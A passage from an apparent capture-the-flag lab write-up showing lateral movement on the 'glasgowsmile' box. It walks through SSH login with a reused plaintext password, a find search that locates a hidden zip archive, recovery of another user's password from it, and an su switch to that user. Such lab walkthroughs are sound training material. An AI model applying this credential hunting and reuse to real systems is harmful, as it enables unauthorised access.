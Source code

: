 # Lateral move (abner -> penguin)

Let's switch to SSH now to free the reverse shell.

~~~
sshpass -p "I33hope99my0death000makes44more8cents00than0my0life0" ssh abner@glasgowsmile.box
~~~

The last user is `penguin`, but there is apparently no file that would help us switch to this user. After searching for files by users, groups, ... I eventually searched for files which name would contain the string "penguin" and found an interesting zip archive, hidden in the Joomla subfolders:

~~~
abner@glasgowsmile:~$ find / -type f -name "*penguin*" 2>/dev/null
/var/www/joomla2/administrator/manifests/files/.dear_penguins.zip
~~~

Unzip the archive with the same password as the user's password (`I33hope99my0death000makes44more8cents00than0my0life0`):

~~~
abner@glasgowsmile:/var/www/joomla2/administrator/manifests/files$ cp .dear_penguins.zip ~/dear_penguins.zip
abner@glasgowsmile:/var/www/joomla2/administrator/manifests/files$ cd 
abner@glasgowsmile:~$ unzip dear_penguins.zip 
Archive:  dear_penguins.zip
[dear_penguins.zip] dear_penguins password: 
  inflating: dear_penguins           
~~~

It results in a clear text file containing penguin's password:

~~~
abner@glasgowsmile:~$ cat dear_penguins
My dear penguins, we stand on a great threshold! It's okay to be scared; many of you won't be coming back. Thanks to Batman, the time has come to punish all of God's children! First, second, third and fourth-born! Why be biased?! Male and female! Hell, the sexes are equal, with their erogenous zones BLOWN SKY-HIGH!!! FORWAAAAAAAAAAAAAARD MARCH!!! THE LIBERATION OF GOTHAM HAS BEGUN!!!!!
scf4W7q4B4caTMRhSFYmktMsn87F35UkmKttM5Bz
~~~

Switch user with the password `scf4W7q4B4caTMRhSFYmktMsn87F35UkmKttM5Bz`

~~~
abner@glasgowsmile:~$ su penguin
Password: 
penguin@glasgowsmile:/home/abner$ id
uid=1002(penguin) gid=1002(penguin) groups=1002(penguin)
~~~

# Flag 3

The third flag is available in `/home/penguin/SomeoneWhoHidesBehindAMask/user3.txt`:

~~~
penguin@glasgowsmile:~$ ls -la /home/penguin/
total 40
drwxr-xr-x 5 penguin penguin 4096 Jun 16 11:58 .
drwxr-xr-x 5 root    root    4096 Jun 15 06:34 ..
-rw------- 1 penguin penguin    7 Sep 28 11:49 .bash_history
-rw-r--r-- 1 penguin penguin  220 Jun 15 06:34 .bash_logout
-rw-r--r-- 1 penguin penguin 3526 Jun 15 06:34 .bashrc
drwxr-xr-x 3 penguin penguin 4096 Jun 15 12:01 .local
-rw-r--r-- 1 penguin penguin  807 Jun 15 06:34 .profile
drwxr--r-- 2 penguin penguin 4096 Jun 16 12:52 SomeoneWhoHidesBehindAMask
drwx------ 2 penguin penguin 4096 Jun 15 11:22 .ssh
-rw------- 1 penguin penguin   58 Jun 15 11:20 .Xauthority
penguin@glasgowsmile:~$ cd SomeoneWhoHidesBehindAMask/
~~~